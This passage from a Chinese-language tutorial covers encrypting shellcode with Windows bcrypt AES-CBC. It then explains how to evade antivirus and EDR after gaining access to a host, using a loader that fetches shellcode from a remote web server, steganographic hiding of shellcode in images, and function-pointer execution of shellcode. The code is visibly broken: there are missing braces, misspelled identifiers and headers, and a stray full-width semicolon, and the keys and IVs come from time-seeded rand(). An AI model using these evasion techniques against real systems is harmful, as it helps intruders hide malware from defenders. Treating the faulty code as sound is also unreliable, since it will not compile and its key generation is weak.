  if (!NT_SUCCESS(STATUS)) {
    	printf("[!] BCryptOpenAlgorithmProvider 出错: 0x%0.8X 
", STATUS);
    	bSTATE = FALSE; goto _EndOfFunc;
  }

  // 获取密钥对象变量 pbKeyObject 的大小。该属性将被后面的 BCryptGenerateSymmetricKey 函数使用
  STATUS = BCryptGetProperty(hAlgorithm, BCRYPT_OBJECT_LENGTH, (PBYTE)&cbKeyObject, sizeof(DWORD), &cbResult, 0);
  if (!NT_SUCCESS(STATUS)) {
    	printf("[!] BCryptGetProperty[1] 出错: 0x%0.8X 
", STATUS);
    	bSTATE = FALSE; goto _EndOfFunc;
  }

  // 获取加密中使用的块大小。由于这是 AES，因此它必须为 16 个字节。
  STATUS = BCryptGetProperty(hAlgorithm, BCRYPT_BLOCK_LENGTH, (PBYTE)&dwBlockSize, sizeof(DWORD), &cbResult, 0);
  if (!NT_SUCCESS(STATUS)) {
   	printf("[!] BCryptGetProperty[2] 出错: 0x%0.8X 
", STATUS);
    	bSTATE = FALSE; goto _EndOfFunc;
  }

  // 检查块大小是否为 16 个字节
  if (dwBlockSize != 16) {
    	bSTATE = FALSE; goto _EndOfFunc;
  }

  // 为密钥对象分配内存
  pbKeyObject = (PBYTE)HeapAlloc(GetProcessHeap(), 0, cbKeyObject);
  if (pbKeyObject == NULL) {
    	bSTATE = FALSE; goto _EndOfFunc;
  }

  // 将块密码模式设置为 CBC。这使用了 32 字节的密钥和 16 字节的 IV。
  STATUS = BCryptSetProperty(hAlgorithm, BCRYPT_CHAINING_MODE, (PBYTE)BCRYPT_CHAIN_MODE_CBC, sizeof(BCRYPT_CHAIN_MODE_CBC), 0);
  if (!NT_SUCCESS(STATUS)) {
    	printf("[!] BCryptSetProperty 出错: 0x%0.8X 
", STATUS);
    	bSTATE = FALSE; goto _EndOfFunc;
  }

  // 从 AES 密钥“pAes->pKey”生成密钥对象。输出将保存在 pbKeyObject 中，大小为 cbKeyObject
  STATUS = BCryptGenerateSymmetricKey(hAlgorithm, &hKeyHandle, pbKeyObject, cbKeyObject, (PBYTE)pAes->pKey, KEYSIZE, 0);
  if (!NT_SUCCESS(STATUS)) {
    	printf("[!] BCryptGenerateSymmetricKey 出错: 0x%0.8X 
", STATUS);
    	bSTATE = FALSE; goto _EndOfFunc;
  }

  // 第一次运行 BCryptEncrypt，其输出参数为 NULL，用于检索输出缓冲区的大小，该大小保存在 cbCipherText 中
  STATUS = BCryptEncrypt(hKeyHandle, (PUCHAR)pAes->pPlainText, (ULONG)pAes->dwPlainSize, NULL, pAes->pIv, IVSIZE, NULL, 0, &cbCipherText, BCRYPT_BLOCK_PADDING);
  if (!NT_SUCCESS(STATUS)) {
    	printf("[!] BCryptEncrypt[1] 出错: 0x%0.8X 
", STATUS);
    	bSTATE = FALSE; goto _EndOfFunc;
  }

  // 重新为输出缓冲区分配足够的内存（cbCipherText）
  pbCipherText = (PBYTE)HeapAlloc(GetProcessHeap(), 0, cbCipherText);
  if (pbCipherText == NULL) {
    	bSTATE = FALSE; goto _EndOfFunc;
  }

  // 再次运行 BCryptEncrypt，pbCipherText 作为输出缓冲区
  STATUS = BCryptEncrypt(hKeyHandle, (PUCHAR)pAes->pPlainText, (ULONG)pAes->dwPlainSize, NULL, pAes->pIv, IVSIZE, pbCipherText, cbCipherText, &cbResult, BCRYPT_BLOCK_PADDING);
  if (!NT_SUCCESS(STATUS)) {
    	printf("[!] BCryptEncrypt[2] 出错: 0x%0.8X 
", STATUS);
    	bSTATE = FALSE; goto _EndOfFunc;
  }


  // 清理
_EndOfFunc:
  if (hKeyHandle) 
    	BCryptDestroyKey(hKeyHandle);
  if (hAlgorithm) 
    	BCryptCloseAlgorithmProvider(hAlgorithm, 0);
  if (pbKeyObject) 
    	HeapFree(GetProcessHeap(), 0, pbKeyObject);
  if (pbCipherText != NULL && bSTATE) {
        // 如果一切正常，则保存 pbCipherText 和 cbCipherText 
        pAes->pCipherText 	= pbCipherText;
        pAes->dwCipherSize 	= cbCipherText;
  }
  return bSTATE;
}
```

InstallAesDecryption 函数

InstallAesDecryption 函数执行 AES 解密。该函数有一个参数 PAES，它是指向已填充的 AES 结构的指针。该函数中使用的 bCrypt 库函数与上面 InstallAesEncryption 函数中是一样的，唯一的区别在于使用 BCryptDecrypt 而非 BCryptEncrypt。

* BCryptDecrypt - 用于解密指定的数据块。此函数被调用两次，第一次调用检索解密后的数据大小，来分配此大小的堆缓冲区。第二次调用解密数据，并将明文数据存储在分配的堆中。

如果成功解密负载，该函数返回 TRUE，否则返回 FALSE。

```
// 解密实现
BOOL InstallAesDecryption(PAES pAes) {

  BOOL                  bSTATE          = TRUE;
  BCRYPT_ALG_HANDLE     hAlgorithm      = NULL;
  BCRYPT_KEY_HANDLE     hKeyHandle      = NULL;

  ULONG                 cbResult        = NULL;
  DWORD                 dwBlockSize     = NULL;
  
  DWORD                 cbKeyObject     = NULL;
  PBYTE                 pbKeyObject     = NULL;

  PBYTE                 pbPlainText     = NULL;
  DWORD                 cbPlainText     = NULL;

  // 使用 AES 算法句柄初始化“hAlgorithm”
  STATUS = BCryptOpenAlgorithmProvider(&hAlgorithm, BCRYPT_AES_ALGORITHM, NULL, 0);
  if (!NT_SUCCESS(STATUS)) {
    	printf("[!] BCryptOpenAlgorithmProvider 失败，错误为：0x%0.8X 
", STATUS);
    	bSTATE = FALSE; goto _EndOfFunc;
  }

  // 获取键对象变量 pbKeyObject 的大小。稍后在 BCryptGenerateSymmetricKey 函数中使用此变量
  STATUS = BCryptGetProperty(hAlgorithm, BCRYPT_OBJECT_LENGTH, (PBYTE)&cbKeyObject, sizeof(DWORD), &cbResult, 0);
  if (!NT_SUCCESS(STATUS)) {
    	printf("[!] BCryptGetProperty[1] 失败，错误为：0x%0.8X 
", STATUS);
    	bSTATE = FALSE; goto _EndOfFunc;
  }
  
  // 获取加密中使用的块的大小。由于使用的是 AES，因此大小应为 16 字节。
  STATUS = BCryptGetProperty(hAlgorithm, BCRYPT_BLOCK_LENGTH, (PBYTE)&dwBlockSize, sizeof(DWORD), &cbResult, 0);
  if (!NT_SUCCESS(STATUS)) {
    	printf("[!] BCryptGetProperty[2] 失败，错误为：0x%0.8X 
", STATUS);
    	bSTATE = FALSE; goto _EndOfFunc;
  }
  
  // 检查块大小是否为 16 字节
  if (dwBlockSize != 16) {
    	bSTATE = FALSE; goto _EndOfFunc;
  }
  
  // 分配键对象的内存
  pbKeyObject = (PBYTE)HeapAlloc(GetProcessHeap(), 0, cbKeyObject);
  if (pbKeyObject == NULL) {
    	bSTATE = FALSE; goto _EndOfFunc;
  }
  
  // 将块密码模式设置为 CBC。它使用 32 字节的密钥和 16 字节的 IV。
  STATUS = BCryptSetProperty(hAlgorithm, BCRYPT_CHAINING_MODE, (PBYTE)BCRYPT_CHAIN_MODE_CBC, sizeof(BCRYPT_CHAIN_MODE_CBC), 0);
  if (!NT_SUCCESS(STATUS)) {
    	printf("[!] BCryptSetProperty 失败，错误为：0x%0.8X 
", STATUS);
    	bSTATE = FALSE; goto _EndOfFunc;
  }
  
  // 根据 AES 密钥“pAes->pKey”生成键对象。输出将保存在大小为 cbKeyObject 的 pbKeyObject 中
  STATUS = BCryptGenerateSymmetricKey(hAlgorithm, &hKeyHandle, pbKeyObject, cbKeyObject, (PBYTE)pAes->pKey, KEYSIZE, 0);
  if (!NT_SUCCESS(STATUS)) {
    	printf("[!] BCryptGenerateSymmetricKey 失败，错误为：0x%0.8X 
", STATUS);
    	bSTATE = FALSE; goto _EndOfFunc;
  }

  // 运行 BCryptDecrypt，将输出参数设为 NULL，以检索输出缓冲区的大小，保存在 cbPlainText 中
  STATUS = BCryptDecrypt(hKeyHandle, (PUCHAR)pAes->pCipherText, (ULONG)pAes->dwCipherSize, NULL, pAes->pIv, IVSIZE, NULL, 0, &cbPlainText, BCRYPT_BLOCK_PADDING);
  if (!NT_SUCCESS(STATUS)) {
    	printf("[!] BCryptDecrypt[1] 失败，错误为：0x%0.8X 
", STATUS);
    	bSTATE = FALSE; goto _EndOfFunc;
  }
  
  // 为输出缓冲区分配足够的内存，cbPlainText
  pbPlainText = (PBYTE)HeapAlloc(GetProcessHeap(), 0, cbPlainText);
  if (pbPlainText == NULL) {
    	bSTATE = FALSE; goto _EndOfFunc;
  }
  
  // 再次运行 BCryptDecrypt，使用 pbPlainText 作为输出缓冲区
  STATUS = BCryptDecrypt(hKeyHandle, (PUCHAR)pAes->pCipherText, (ULONG)pAes->dwCipherSize, NULL, pAes->pIv, IVSIZE, pbPlainText, cbPlainText, &cbResult, BCRYPT_BLOCK_PADDING);
  if (!NT_SUCCESS(STATUS)) {
    	printf("[!] BCryptDecrypt[2] 失败，错误为：0x%0.8X 
", STATUS);
    	bSTATE = FALSE; goto _EndOfFunc;
  }

  // 清理
_EndOfFunc:
  if (hKeyHandle)
    	BCryptDestroyKey(hKeyHandle);
  if (hAlgorithm)
    	BCryptCloseAlgorithmProvider(hAlgorithm, 0);
  if (pbKeyObject)
    	HeapFree(GetProcessHeap(), 0, pbKeyObject);
  if (pbPlainText != NULL && bSTATE) {
        // 如果一切正常，我们将保存 pbPlainText 和 cbPlainText
        pAes->pPlainText   = pbPlainText;
        pAes->dwPlainSize  = cbPlainText;
  }
  return bSTATE;

}
```

**其他辅助函数**

该代码还包含两个小辅助函数：PrintHexData 和 GenerateRandomBytes。

第一个函数PrintHexData 将输入缓冲区按 C 语法打印为字符数组并输出到控制台。

```
// 以十六进制字符数组将输入缓冲区打印出来
VOID PrintHexData(LPCSTR Name, PBYTE Data, SIZE_T Size) {

  printf("unsigned char %s[] = {", Name);

  int i = 0;
  for (; i < Size; i++) {
      if (i % 16 == 0)
          printf("
\t");

      if (i < Size - 1) {
          printf("0x%0.2X, ", Data[i]);
      } else {
          printf("0x%0.2X ", Data[i]);
      }

  printf("};


");

}
```

另一个函数 GenerateRandomBytes 用随机字节填充输入缓冲区，在该函数中，这些字节用于生成随机密钥和 IV。

```
// 生成大小为 sSize 的随机字节
VOID GenerateRandomBytes(PBYTE pByte, SIZE_T sSize) {

  int i = 0;
  for (; i < sSize; i++) {
      pByte[i] = (BYTE)rand() % 0xFF；
  }

}
```

**填充**

InstallAesEncryption 和 InstallAesDecryption 函数分别与 bcrypt 函数 BCryptEncrypt 和 BCryptDecrypt 一起使用 BCRYPT\_BLOCK\_PADDING 标志，在需要时自动填充输入缓冲区以使其成为 16 字节的倍数，从而解决 AES 填充问题。

**主函数 - 加密**

下面的主函数用于对纯文本数据数组执行加密

```
// 纯文本，以十六进制格式，将被加密
// 这是十六进制中的以下字符串“This is a plain text string, we'll try to encrypt/decrypt !”
unsigned char Data[] = {
	0x54, 0x68, 0x69, 0x73, 0x20, 0x69, 0x73, 0x20, 0x61, 0x20, 0x70, 0x6C,
	0x61, 0x69, 0x6E, 0x20, 0x74, 0x65, 0x78, 0x74, 0x20, 0x73, 0x74, 0x72,
	0x69, 0x6E, 0x67, 0x2C, 0x20, 0x77, 0x65, 0x27, 0x6C, 0x6C, 0x20, 0x74,
	0x72, 0x79, 0x20, 0x74, 0x6F, 0x20, 0x65, 0x6E, 0x63, 0x72, 0x79, 0x70,
	0x74, 0x2F, 0x64, 0x65, 0x63, 0x72, 0x79, 0x70, 0x74, 0x20, 0x21
};

int main() {

	BYTE pKey [KEYSIZE];                    // KEYSIZE 为 32 字节
	BYTE pIv [IVSIZE];                      // IVSIZE 为 16 字节

	srand(time(NULL));                      // 生成密钥的种子。这用于进一步随机化密钥。
	GenerateRandomBytes(pKey, KEYSIZE);     // 使用辅助函数生成密钥
	
	srand(time(NULL) ^ pKey[0]);            // 生成 IV 的种子。使用密钥的第一个字节以增加随机性。
	GenerateRandomBytes(pIv, IVSIZE);       // 使用辅助函数生成 IV

	// 将密钥和 IV 打印到控制台上
	PrintHexData("pKey", pKey, KEYSIZE);
	PrintHexData("pIv", pIv, IVSIZE);

	// 定义两个变量输出缓冲区及其相应的大小，将在 SimpleEncryption 中使用
	PVOID pCipherText = NULL;
	DWORD dwCipherSize = NULL;
	
	// 加密
	if (!SimpleEncryption(Data, sizeof(Data), pKey, pIv, &pCipherText, &dwCipherSize)) {
		return -1;
	}

	// 将加密后的缓冲区打印为十六进制数组
	PrintHexData("CipherText", pCipherText, dwCipherSize);
	
	// 清除
	HeapFree(GetProcessHeap(), 0, pCipherText);
	system("PAUSE");
	return 0;
}
```

主程序 - 解密

```
// 打印到屏幕的密钥
unsigned char pKey[] = {
		0x3E, 0x31, 0xF4, 0x00, 0x50, 0xB6, 0x6E, 0xB8, 0xF6, 0x98, 0x95, 0x27, 0x43, 0x27, 0xC0, 0x55,
		0xEB, 0xDB, 0xE1, 0x7F, 0x05, 0xFE, 0x65, 0x6D, 0x0F, 0xA6, 0x5B, 0x00, 0x33, 0xE6, 0xD9, 0x0B };

// 打印到屏幕的 iv
unsigned char pIv[] = {
		0xB4, 0xC8, 0x1D, 0x1D, 0x14, 0x7C, 0xCB, 0xFA, 0x07, 0x42, 0xD9, 0xED, 0x1A, 0x86, 0xD9, 0xCD };


// 打印到屏幕的加密缓冲区为：
unsigned char CipherText[] = {
		0x97, 0xFC, 0x24, 0xFE, 0x97, 0x64, 0xDF, 0x61, 0x81, 0xD8, 0xC1, 0x9E, 0x23, 0x30, 0x79, 0xA1,
		0xD3, 0x97, 0x5B, 0xAE, 0x29, 0x7F, 0x70, 0xB9, 0xC1, 0xEC, 0x5A, 0x09, 0xE3, 0xA4, 0x44, 0x67,
		0xD6, 0x12, 0xFC, 0xB5, 0x86, 0x64, 0x0F, 0xE5, 0x74, 0xF9, 0x49, 0xB3, 0x0B, 0xCA, 0x0C, 0x04,
		0x17, 0xDB, 0xEF, 0xB2, 0x74, 0xC2, 0x17, 0xF6, 0x34, 0x60, 0x33, 0xBA, 0x86, 0x84, 0x85, 0x5E };

int main() {

	// 定义用于 SimpleDecryption 中的两个变量，即输出缓冲区及其相应大小
	PVOID	pPlaintext  = NULL;
	DWORD	dwPlainSize = NULL;

	// 解密
	if (!SimpleDecryption(CipherText, sizeof(CipherText), pKey, pIv, &pPlaintext, &dwPlainSize)) {
		return -1;
	}
	
	// 以十六进制格式将解密数据打印到屏幕
	PrintHexData("PlainText", pPlaintext, dwPlainSize);
	
	// 将打印：“This is a plain text string, we'll try to encrypt/decrypt !”
	printf("Data: %s 
", pPlaintext);
	
	// 清除
	HeapFree(GetProcessHeap(), 0, pPlaintext);
	system("PAUSE");
	return 0;
}
```

### shellcode的传递

#### Web远程文件读取

在内网渗透中，当我们拿到了一个主机权限后，如果直接上传工具运行，那么大概率会被AV/EDR拦截掉，即使我们做好免杀，过一段时间后还是有被发现的情况。亦或者会被蓝队程序拿去分析等等一些情况。所以我们这里可以尝试写一个Loader。然后手动输入IP地址和端口以及访问的文件，让我们的Loader去加载我们远程web上的shellcode 从而进行加载并运行。这样在一定程度上避免沙箱运行发现。同时因为我们上传的只是一个Loader，AV/EDR也会对我们的程序放松警惕。最大的一个好处也是因为我们会使用各种工具，避免了对多种工具进行免杀操作。

#### 图片(BMP)隐写术

BMP隐写术是一种将秘密信息(如文本、另一种图片或任何文件)隐藏在一张普通的BMP格式的图片中的技术。**其核心就是在不改变图片视觉外观的前提下，利用BMP文件的结构特性来嵌入数据。**

我们可以利用隐写术将Shellcode隐写如PNG图片RGB像素中，从而隐藏后门代码，并进行远程加载控制目标主机。

```
https://github.com/Hangingsword/HouQing
```

#### Shellcode加载器

行为检测真的很难躲避，因为归根到底，你必须执行恶意代码。一旦你这样做了，防病毒软件会记录你的一举一动，然后最终确定你是恶意软件。但是，如果你可以将加载程序与不同进程空间中的实际Shellcode分开，这似乎不是什么问题。这时我们尝试执行解密Shellcode时防病毒软件就会注意到我们的行为。首先，攻击者能够完美地解密他的Shellcode，那么恶意Shellcode仍然在内存中，但是当攻击者试图从这样的函数指针执行它时，杀软就会抓住恶意代码

```
int(*func)();
func=(int(*)()) shellcode;
(int)(*func)();
```

但是，如果我们删除了最后一行，那么杀软就可以正常运行该程序，就表明最后一行被标记

这似乎暗示，只要不执行最后一行的代码，前面的代码在内存中通常是可以执行的。我们知道AV运行时会分析实际的代码，但是它不太关心程序会做什么。如果关心的话，效率损失就太高了。因此并没有使用函数指针，而是使用Loader来解决加载程序的问题。

```
#include <iosteam>
#include <Windows.h>

int main(){

  HMODULEhMod=LoadLibrary("shellcode.dll");
  if(hMod==nulLptr){
    cout<<"Failed to load shellcode.dll"<<endl;
  return 0;
  
}
```
